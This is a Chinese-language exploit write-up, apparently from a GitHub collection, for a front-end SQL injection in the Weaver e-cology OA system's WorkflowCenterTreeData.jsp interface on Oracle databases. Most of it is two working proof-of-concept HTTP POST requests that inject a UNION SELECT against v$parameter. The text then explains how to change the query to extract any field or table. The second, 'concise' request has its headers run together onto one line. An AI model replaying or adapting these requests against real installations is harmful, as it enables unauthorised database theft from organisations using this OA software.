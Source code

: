 ### 泛微 e-cology OA 前台SQL注入漏洞

### 简介

泛微提供了移动办公、微信办公、协同办公(OA)、流程管理、信息门户、知识管理、费控管理等功能，适用于手机和pc端，是当今比较主流的OA系统之一。  

### **原理概述**

该漏洞是由于OA系统的WorkflowCenterTreeData接口在收到用户输入的时候未进行安全过滤，  oracle数据库传入恶意SQL语句，导致SQL漏洞  

### **影响范围**

使用oracle数据库的泛微 e-cology OA 系统  

### **漏洞利用**

找到oracle数据库的泛微OA系统后直接使用Poc（已公开）  

如果不存在漏洞，则显示结果如下：  

![img](泛微 e-cology OA 前台SQL注入漏洞/8c73f20d47d1456ce3b279ea08f7ddc81ff.jpg)

如果漏洞存在，则会直接回显很多数据:  

![img](泛微 e-cology OA 前台SQL注入漏洞/1584b3bd0feda39a5d1a96c4ba17e39642b.jpg)

### Poc如下：（勿用于非法途径）  

```
POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2236
Connection: close
Upgrade-Insecure-Requests: 1

formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1
```

修改NULL后为要查询的字段名,修改from后为查询的表  



简洁版POC

```html
POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedContent-Length: 2236Connection: closeUpgrade-Insecure-Requests: 1
formids=11111111111)))%0a%0dunion select NULL,value from v$parameter order by (((1
```

